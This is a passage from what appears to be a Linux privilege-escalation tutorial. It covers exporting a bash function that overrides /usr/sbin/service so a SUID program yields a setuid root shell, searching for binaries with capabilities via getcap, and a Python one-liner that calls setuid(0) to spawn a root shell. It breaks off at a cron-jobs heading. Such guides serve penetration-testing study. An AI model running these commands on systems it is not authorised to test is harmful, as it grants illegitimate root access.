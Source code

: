 ### Function Injection

In cases where a full path is used, we need to define a function to override the behavior:

```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

export -f /usr/sbin/service
```

![Privilege Escalation](./Image/38.png)

By doing this, you can gain a shell with the SUID user's privileges.

# Privilege Escalation via Capabilities

To search for files with capabilities, use the following command:

```bash
getcap -r / 2> /dev/null
```

Look for files with the `+ep` flag:

![Privilege Escalation](./Image/39.png)

You can exploit such files by running this command:

```bash
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

![Privilege Escalation](./Image/40.png)

# Privilege Escalation through Scheduled Tasks

To view cron jobs, you can use the following command:
